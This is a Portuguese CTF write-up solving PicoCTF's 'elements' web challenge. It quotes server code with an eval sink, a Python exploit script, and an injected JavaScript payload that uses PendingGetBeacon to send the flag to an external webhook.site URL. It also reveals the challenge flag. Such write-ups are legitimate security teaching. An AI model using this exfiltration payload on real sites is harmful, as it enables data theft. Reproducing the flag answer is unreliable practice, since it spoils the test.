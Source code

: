 # WriteUp: elements
## Descrição do desafio
**Author**: ehhthing \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/447?category=1&page=4) \
**Categoria**: Web Exploitation \
**Dificuldade**: Difícil \
**Data**: 2024 \
**Descrição**:
> Insert Standard Web Challenge Here.
> Source code: elements.tar.gz.
> Craft some magic up here.

## Passo a Passo da Solução
### 1. Análise do código fonte
O desafio fornece os arquivos fonte do servidor (`elements.tar.gz`) por trás do website alvo. O principal arquivo a se notar é o `index.mjs`, nele descobrimos o path `/remoteCraft`. Esse path aceita um parameter chamado recipe, que passa pelas verificações:
``` javascript
if (url.pathname === '/remoteCraft') {
		try {
			const { recipe, xss } = JSON.parse(url.searchParams.get('recipe'));
			assert(typeof xss === 'string');
			assert(xss.length < 300);
			assert(recipe instanceof Array);
			assert(recipe.length < 50);
			for (const step of recipe) {
				assert(step instanceof Array);
				assert(step.length === 2);
				for (const element of step) {
					assert(typeof xss === 'string');
					assert(element.length < 50);
				}
			}
			visit({ recipe, xss });
		} catch(e) {
			console.error(e);
			return res.writeHead(400).end('invalid recipe!');
		}
return res.end('visiting!');
```
Reparamos na chamada da função `visit({ recipe, xss})`. Vamos examinar essa função:
``` javascript
async function visit(state) {
	if (visiting) return;
	visiting = true;

	state = {...state, flag }

	const userDataDir = await mkdtemp(join(tmpdir(), 'elements-'));

	await mkdir(join(userDataDir, 'Default'));
	await writeFile(join(userDataDir, 'Default', 'Preferences'), JSON.stringify({
		net: {
			network_prediction_options: 2
		}
	}));

	const proc = spawn(
		'/usr/bin/chromium-browser-unstable', [
			`--user-data-dir=${userDataDir}`,
			'--profile-directory=Default',
			'--no-sandbox',
			'--js-flags=--noexpose_wasm,--jitless',
			'--disable-gpu',
			'--no-first-run',
			'--enable-experimental-web-platform-features',
			`http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`
		],
		{ detached: true }
	)

	await sleep(10000);
	try {
		process.kill(-proc.pid)
	} catch(e) {}
	await sleep(500);

	await rm(userDataDir, { recursive: true, force: true, maxRetries: 10 });

	visiting = false;
}
```
Podemos ver que essa função cria uma nova instância do chromium rodando dentro do servidor com uma aba aberta na url `http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`. A variável state está armazenando tanto os paramêtros recipe e xss quanto a flag do desafio. \ 
Agora, se formos examinar o arquivo `index.js`, encontramos a função: 
``` javascript
const evaluate = (...items) => {
	const [a, b] = items.sort();
	for (const [ingredientA, ingredientB, result] of recipes) {
		if (ingredientA === a && ingredientB == b) {
			if (result === 'XSS' && state.xss) {
				eval(state.xss);
			}
			return result;
		}
	}
	return null;
}
```
Essa função é responsável por executar as receitas descritas no `state.recipe`. Contudo, se o resultado da tarefa for igual a XSS, qualquer código dentro de `state.xss` será executado.
### 2. Solucionando o desafio
A estratégia para solucionar o desafio começa encontrando um array recipe com a sequência correta de receitas que gera um elemento XSS. No código python `exploit.py`, a função `find_sequence` será responsável por encontrar este array:
``` python
def find_sequence():
    orig = ['Fire', 'Water', 'Earth', 'Air']
    dependencies = {}
    for r in all_recipes:
        dependencies[r[2]] = [r[0], r[1]]

    dep_graph = {}

    def trace_dependency(dep):
        if dep in dependencies:
            dep_graph[dep] = set(dependencies[dep])
            for d in dependencies[dep]:
                if d in orig:
                    continue
                trace_dependency(d)

    trace_dependency("XSS")

    ts = graphlib.TopologicalSorter(dep_graph)
    res_order = list(ts.static_order())

    res_lst = [dependencies[k] for k in res_order if k in dependencies]
    return res_lst
sequence = find_sequence()
```
Agora, precisamos criar uma forma de transferir dados da aplicação aberta no chromium do server para nosso computador. Para receber os dados, utilizaremos o website webhook.site. Para enviá-los do servidor, teremos que injetar algum código javascript pelo paramater xss. O servidor está bloqueando a maioria das formas de se comunicar com outros sites pelo navegador chromium, tal como o `fetch`. Contudo, observamos que foi habilitada a opção `--enable-experimental-web-platform-features`. Desse modo, é possível usar uma função chamada `PendingGetBeacon`: 
``` python
parameters = {
    "recipe": sequence, 
    "xss": 'let pd = new PendingGetBeacon(`https://webhook.site/6850a7e0-1488-4bd2-ad3b-cdc1db0f28b1/${state.flag}`); pd.sendNow();'
}

print(sequence)

encoded_params = urlencode({"recipe": json.dumps(parameters)})

url = f"{base_url}{path}?{encoded_params}"

print(f"URL gerada: {url}")

response = requests.get(url) 
print(response.text)
```
Recebemos no webhook: *picoCTF%7Blittle_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a%7D%20btw%20contact%20me%20on%20discord%20with%20ur%20solution%20thanks%20@ehhthing* \
Decodificando-o obtemos: picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a} btw contact me on discord with ur solution thanks @ehhthing \
Logo a flag é: picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}

## Autor da WriteUp
[Membro de Networking - Luiz Felipe](https://github.com/LuizF14)
